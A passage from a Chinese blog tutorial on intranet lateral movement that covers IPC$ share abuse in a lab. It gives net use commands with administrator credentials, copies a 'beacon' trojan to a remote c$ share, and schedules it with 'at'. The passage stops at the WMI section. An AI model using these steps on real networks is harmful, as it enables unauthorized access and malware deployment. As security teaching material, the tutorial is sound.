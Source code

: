 # 内网渗透-内网横向移动的九种方式

最新推荐文章于 2025-03-03 20:19:08 发布

本文详细介绍了内网横向移动的九种常见技术，包括IPC、WMI、SMB、密码喷洒、哈希传递、WinRM等，以及相关工具如psexec、mimikatz的应用。这些方法涉及条件、命令和安全漏洞利用，展示了黑客可能利用的路径和步骤。

### 实验环境

1-4 所用环境如下：  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153114739.png)  
5-9 所用环境如下：  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153117457.png)

### 1.[IPC](https://so.csdn.net/so/search?q=IPC&spm=1001.2101.3001.7020)横向

IPC(Internet Process Connection)共享[命名管道](https://so.csdn.net/so/search?q=%E5%91%BD%E5%90%8D%E7%AE%A1%E9%81%93&spm=1001.2101.3001.7020)的资源，是为了实现进程间通信而开放的命名管道。IPC可以通过验证用户名和密码获得相应的权限，使用139、445端口。

#### 1.1 利用条件

1、目标机开启了139和445端口；

2、目标主机管理员开启了ipc$默认共享；

3、知道目标机的账户密码。

#### 1.2 命令

> 建立IPC连接命令：  
> net use \\191.168.52.136\\ipc$ “password” /user:“Administrator”  
> 断开连接：  
> net use \\x.x.x.x\\ipc$ /del  
> 查看连接是否建立：  
> net use

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153110789.png)  
建立IPC连接后可以使用计划任务执行木马上线。

> 拷贝木马：  
> copy beacon…exe \\191.168.52.136\\c$  
> 创建计划任务(at&lt;2012、schtasks&gt;=2012)：  
> at \\191.168.52.136 15:47 c:\\beacon.exe

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153122915.png)
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153128901.png)  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153126357.png)

### 2.[WMI](https://so.csdn.net/so/search?q=WMI&spm=1001.2101.3001.7020)横向
